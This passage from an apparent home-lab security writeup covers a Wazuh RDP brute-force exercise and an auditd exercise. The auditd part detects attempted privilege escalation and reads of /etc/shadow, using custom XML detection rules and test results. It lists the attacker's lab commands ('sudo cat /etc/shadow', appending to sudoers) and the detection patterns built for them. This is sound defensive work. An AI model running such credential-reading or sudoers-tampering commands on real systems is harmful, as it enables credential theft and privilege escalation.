  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-14b.png"></a><br><sub>Attacker logging in over RDP</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-14c.png"></a><br><sub>Attacker on the desktop minutes later, no block</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-15.png"></a><br><sub>Events: 101010 at level 14, no block alert</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-17.png"></a><br><sub>No Wazuh rule in Windows Firewall</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-18.png"></a><br><sub>RDP port still open to the attacker</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-20.png"></a><br><sub>Rule 101100 added and validated</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-21a.png"></a><br><sub>hydra re-run to test rule 101100</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-22.png"></a><br><sub>Re-run: login alerted by 100800 at level 14</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-23.png"></a><br><sub>Both responses disabled after the exercise</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-24a.png"></a><br><sub>Cleanup: SOC-Wazuh</sub></td>
  </tr>
  <tr>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-24b.png"></a><br><sub>Cleanup: SOC-Win11</sub></td>
    <td align="center" valign="top" width="50%"><a href="screenshots/Exercise-14/EX14-24c.png"></a><br><sub>Cleanup: SOC-Kali</sub></td>
  </tr>
</table>

</details>

---

## Exercise 15: Linux Privilege Escalation Visibility with auditd

**Goal:** close the visibility gap found in Exercise 9. An attacker with stolen SSH credentials ran `sudo -l` and `sudo cat /etc/shadow` on the Wazuh server. sudo-rs (Ubuntu 26.04) denied both but wrote **nothing** to auth.log or journald, so Wazuh saw nothing.

**MITRE:** T1548.003 Sudo and Sudo Caching · T1003.008 /etc/passwd and /etc/shadow · T1078 Valid Accounts
**Hosts:** SOC-Wazuh (10.10.10.10, target + manager) · SOC-Kali (10.10.10.130, attacker)

### 1. Before: proving the gap
A lab-only, non-sudo user `testuser` logged in from Kali and tried three escalation steps. All three were denied:

| Command | Result |
|---|---|
| `sudo -l` | "Sorry, user testuser may not run sudo" (no password prompt) |
| `sudo cat /etc/shadow` | denied |
| `cat /etc/shadow` | Permission denied |

`journalctl` showed every **successful** sudo by the admin, but **nothing** about testuser's denied attempts. The dashboard had no escalation alert at all (level 12+: 0).

**Side finding:** testuser's SSH login itself (`Accepted password`, 11:26:28 UTC) produced **no 5715 alert**. Wazuh's logcollector logged *"Journald timestamp was refreshed due to rotation"* one second later (11:26:29). The same thing happened in Exercise 14 (12:44:17 / 12:44:18), both times right after testuser was newly created. Working hypothesis: a new UID's first login makes journald open a per-user journal file, and logcollector skips the events around it. To be tested in Exercise 18.

### 2. auditd: kernel-level visibility
auditd records system calls (a program started, a file opened) **before** the program decides anything, so even a silent sudo-rs cannot hide.

Audit rules (`config/auditd-wazuh-lab.rules`), using Wazuh's own audit keys:

| Key | Watches |
|---|---|
| `audit-wazuh-c` | every `execve` by a real logged-in user (`auid>=1000`) |
| `audit-wazuh-r` | read attempts on `/etc/shadow` (allowed or denied) |
| `audit-wazuh-w` | writes and attribute changes on `/etc/sudoers` and `/etc/sudoers.d/` |

`/var/log/audit/audit.log` was added to the manager with `<log_format>audit</log_format>` (`config/auditd-localfile.xml`).

A local `ausearch` already showed the denied `cat /etc/shadow` with `success=no exit=EACCES auid=analyst`, which is exactly what sudo-rs never logged.

### 3. Investigation: what Wazuh's built-in rules do
All audit events arrived, but **every one at level 3**:

| Action | Built-in rule | auid | success |
|---|---|---|---|
| testuser runs sudo | 80792 Command | 1001 | yes (sudo started) |
| testuser reads /etc/shadow | 80784 Read access | 1001 | **no** |
| admin runs sudo | 80792 Command | 1000 | yes |
| sudoers.d file created | 80790 Created | 1000 | yes |

The attacker's sudo and the admin's sudo look **identical** except for `auid`. Rule 80784 says *"Read access"* even when the read was denied; the real outcome is only in the `success` field.

Things learned from the live events, not guessed:
- Ubuntu 26.04 ships **Rust coreutils and sudo-rs**: `exe` is `/usr/lib/cargo/bin/sudo` and `/usr/lib/cargo/bin/coreutils/cat`, not `/usr/bin/...`.
- `/etc/shadow` is read legitimately by `unix_chkpwd` (every sudo password check), `sshd-session` and `systemd-executor` (every login), and by Wazuh's own daemons.
- Wazuh daemons carried the **admin's auid (1000)** because they were started with `sudo wazuh-control start`. auid tells you *who logged in*, not *which program* acted.

### 4. Custom rules

| Rule | Parent | Logic | Level | MITRE |
|---|---|---|---|---|
| 101200 | 80792 | exe ends in `/sudo`, auid is not the admin (1000) | 10 | T1548.003 |
| 101210 | 80784 | key `audit-wazuh-r`, exe is **not** unix_chkpwd / sshd-session / systemd-executor / Wazuh / sudo | 12 | T1003.008 |
| 101220 | 80780–80782, 80786–80788, 80790, 80791 | key `audit-wazuh-w` (create, write, attribute, delete) | 12 | T1548.003 |

```xml
<group name="local,audit,privilege_escalation,">

  <rule id="101200" level="10">
    <if_sid>80792</if_sid>
    <field name="audit.exe">/sudo$</field>
    <field name="audit.auid" negate="yes">^1000$</field>
    <description>Privilege escalation attempt: sudo run by non-admin login user $(audit.auid)</description>
    <mitre>
      <id>T1548.003</id>
    </mitre>
  </rule>

  <rule id="101210" level="12">
    <if_sid>80784</if_sid>
    <field name="audit.key">^audit-wazuh-r$</field>
    <field name="audit.exe" negate="yes">unix_chkpwd|sshd-session|systemd-executor|/var/ossec/bin/|/sudo$</field>
    <description>Credential access: /etc/shadow read attempt by login user $(audit.auid) via $(audit.exe) (success: $(audit.success))</description>
    <mitre>
      <id>T1003.008</id>
    </mitre>
  </rule>

  <rule id="101220" level="12">
    <if_sid>80780,80781,80782,80786,80787,80788,80790,80791</if_sid>
    <field name="audit.key">^audit-wazuh-w$</field>
    <description>Sudo configuration changed by login user $(audit.auid): $(audit.file.name)</description>
    <mitre>
      <id>T1548.003</id>
    </mitre>
  </rule>

</group>
```

**A bug caught by testing every action:** 101220 was first written only as a child of 80790. It fired when a sudoers file was **created**, but stayed silent when an existing file was **modified** (`tee -a`), because Wazuh uses a different rule (80781 "Write access") for that. An attacker appending one line to an existing sudoers file would have been invisible. After adding every write, attribute and delete parent, create, modify, `chmod` and `rm` all raised 101220.

### 5. Result

| Check | Result |
|---|---|
| testuser `sudo -l` / `sudo cat /etc/shadow` | 101200, level 10 (×2) |
| testuser `cat /etc/shadow` (denied) | 101210, level 12, `success: no` |
| sudoers.d modify / chmod / delete | 101220, level 12 |
| admin `sudo ls /root` | **no** 101200 (admin told apart from attacker) |
| testuser login reading shadow via sshd-session | **no** 101210 (no false positive) |

The Exercise 9 gap is **closed**: an attack that was completely invisible now raises level 10–12 alerts with MITRE mapping.

### 6. Noise: an honest finding
The execve rule produced **4,341** command alerts in about 35 minutes. **89%** of them were `/usr/bin/dash` (1,948) and `/usr/bin/ps` (1,901) from the `wazuh-control` script during three manager restarts. Only 30 were sudo. Planned tuning for Exercise 18: limit execve auditing to sudo/su and common attacker tools, or exclude Wazuh's own scripts.

### Screenshots

<table>
<tr>
<td><br><sub>Before: journal shows the admin's sudo, nothing from the attacker</sub></td>
<td><br><sub>auditd records the denied /etc/shadow read (success=no)</sub></td>
</tr>
<tr>
<td><br><sub>Custom rules 101200, 101210, 101220 firing</sub></td>
<td><br><sub>MITRE view: T1548.003 and T1003.008</sub></td>
</tr>
</table>

<details>
<summary>More screenshots</summary>

<table>
<tr>
<td><br><sub>Backups, Exercise 14 responses still disabled</sub></td>
<td><br><sub>Attacker's three escalation attempts, all denied</sub></td>
</tr>
<tr>
<td><br><sub>Dashboard before auditd: no level 12+ alerts</sub></td>
<td><br><sub>testuser events: account creation and logout only</sub></td>
</tr>
<tr>
